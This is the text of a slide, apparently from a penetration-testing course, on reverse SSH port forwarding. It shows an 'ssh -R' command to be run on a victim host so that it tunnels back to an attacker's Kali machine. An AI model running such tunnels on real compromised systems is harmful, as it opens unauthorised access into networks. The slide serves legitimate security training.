

# Syntax
Quick Aside: If you’re forwarding to Kali, enable SSH first (disabled by default)
sudo systemctl start ssh

Run on the host you want to grant access to (often the victim)

ssh -NfT –R remoteport:targetIP:targetport user@kali

Reverse the pipe from local port forwarding
SSH Command run here

SSH Tunnel FROM Target
Target Port
Kali Port
212